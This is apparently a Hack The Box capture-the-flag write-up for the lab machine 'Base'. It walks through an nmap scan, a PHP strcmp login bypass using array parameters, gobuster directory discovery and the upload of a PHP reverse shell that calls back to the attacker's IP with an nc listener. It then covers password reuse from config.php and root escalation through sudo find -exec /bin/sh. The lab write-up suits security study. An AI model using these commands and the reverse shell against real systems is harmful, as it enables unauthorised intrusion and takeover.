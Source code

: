 ## ------------>> Base <<----------------

// We start with nmap scan

    $ nmap -sC -sV -A -Pn 10.10.10.48 -p-
-----    
    
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 21:35 EDT
    Stats: 0:01:30 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 7.28% done; ETC: 21:55 (0:18:53 remaining)
    Nmap scan report for 10.10.10.48
    Host is up (0.37s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
    |   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
    |_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Nvigatin to http://10.10.10.48/ we got some website that have a login page


![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/1.png)


// Due to miscunfigiration of the develepo we could access the directory from http://10.10.10.48/login/  

// There we can see file login.pgp.swp


![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/2.png)


// In the file we can see block of code


    $ cat login.php.sw
-----

    </html></body><script src="assets/js/main.js"></script><script src="assets/js/util.js"></script><script src="assets/js/breakpoints.min.js"></script><script src="assets/js/browser.min.js"></script><script src="assets/js/jquery.poptrox.min.js"></script><script src="assets/js/jquery.min.js"></script><!-- Scripts --></div>    </div>        </div>            </form>                </ul>                    </li>                        <button class="button" type="submit" value="Submit">Login</button>                    <li>                <ul>                </ul>                    <li><input type="password" name="password" id="password"></li>                    <li><input type="text" name="username" id="username"></li>                <ul>            <form id="login-form" method="POST" action="" onsubmit="">        <div id="menu">        </div>            <h1><a href="index.php">Base</a></h1>        <div id="logo">    <div id="header" class="container"><div id="header-wrapper"><!-- Main --><!-- Wrapper --><body></head>    <link href="default_ie6.css" rel="stylesheet" type="text/css"/><![endif]-->    <!--[if IE 6]>    <link href="fonts.css" rel="stylesheet" type="text/css" media="all"/>    <link href="default.css" rel="stylesheet" type="text/css" media="all"/>    <link href="http://fonts.googleapis.com/css?family=Source+Sans+Pro:200,300,400,600,700,900" rel="stylesheet"/>    <meta name="description" content=""/>    <meta name="keywords" content=""/>    <title>Base Login</title>    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/><head><html xmlns="http://www.w3.org/1999/xhtml"><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">?>}    }        print("<script>alert('Wrong Username or Password')</script>");    } else {        }            print("<script>alert('Wrong Username or Password')</script>");        } else {            header("Location: upload.php");            $_SESSION['user_id'] = 1;        if (strcmp($password, $_POST['password']) == 0) {    if (strcmp($username , $_POST['username']) == 0) {    require('config.php');if (!empty($_POST['username']) && !empty($_P


// it seems that its the authentication mehod for the login


    if (strcmp($password, $_POST['password']) == 0) 
    if (strcmp($username , $_POST['username']) == 0)


// Developer uses strcmp to check username and password, whitch its insecure and can be easilly bypass

// due to the fact that if strcmp is given an empty array to compare againts the stored password, it retuens null.

// in PHP the == operator only checks the value of a viriable for equality and the value of null is equal to 0.

// the correct way to write this its using === which checks both the value and type.

// lets open burp and catch the login packet


![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/3.png)


// Now lets send another login but this time we will edit the request in BurpSuite proxy

// edit to last line and send

    username[]=test&password[]=test

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/4.png)


// We got redirect to http://10.10.10.48/upload.php , where we can upload files


![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/5.png)


// when upload file its send us succcess but where the file?... lets run gobuster

    $ gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirb/big.txt -q -n -e
-----    
    
    http://10.10.10.48/.htaccess            [Size: 276]
    http://10.10.10.48/.htpasswd            [Size: 276]
    http://10.10.10.48/_uploaded            [Size: 314] [--> http://10.10.10.48/_uploaded/]


// lets test if and upload some file and call him

    $ touch 1 > test.txt

// Upload test.txt and navigate to http://10.10.10.48/_uploaded/test.txt , it works!


![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/6.png)


// lets upload php reverse shell (u can either cp or download from ![here](https://www.revshells.com/))

    $ cp /usr/share/laudanum/php/php-reverse-shell.php php_rshell.php
// editing the file with our ip and port

    ...
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '10.10.16.14';  // CHANGE THIS
    $port = 1444;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ...

// open a listiner with nc

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
 
 // and navigate to 10.10.10.48/_uploaded/php_rshell.php
 
    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.14] from (UNKNOWN) [10.10.10.48] 40934
    Linux base 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
     06:15:16 up 13:43,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


// lets promote shell using python

    python3 -c "import pty;pty.spawn('/bin/bash')"


// Searching in the /var/www/html/login/ directory, found file config.php

    www-data@base:/var/www/html/login$ cat config.php
    cat config.php
    <?php
    $username = "admin";
    $password = "thisisagoodpassword";
    ...

// we found user john in etc/passwd

    www-data@base:/etc$ cat passwd
    ......................................................
    john:x:1000:1000:John:/home/john:/bin/bash
    ................................................

// Try connect johb user with password: hisisagoodpassword

    www-data@base:/$ su john
    su john
    password: thisisagoodpassword

    john@base:/$ id
    uid=1000(john) gid=1000(john) groups=1000(john)
    
// It Worked! 

// We got user flag!

    john@base:~$ cat user.txt
    cat user.txt
    f54846c258f3b4612f78a819573d158e


## ----Privilliges Escalation----


// running sudo -l for checking which files we can run with root permission we got 'find'


    john@base:~$ sudo -l
    sudo -l
    [sudo] password for john: thisisagoodpassword

    Matching Defaults entries for john on base:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User john may run the following commands on base:
        (root : root) /usr/bin/find


// lets abuse 'find' command for root privilleges 


    john@base:~$ sudo find . -exec /bin/sh \; -quit
    sudo find . -exec /bin/sh \; -quit
    
    # whoami
    whoami
    root


// Lets promote root shell with python

    # python3 -c "import pty;pty.spawn('/bin/bash')"
    python3 -c "import pty;pty.spawn('/bin/bash')"
    root@base:/home# 
-----

// We got root flag !

    root@base:/root# cat root.txt
    cat root.txt
    51709519ea18.................

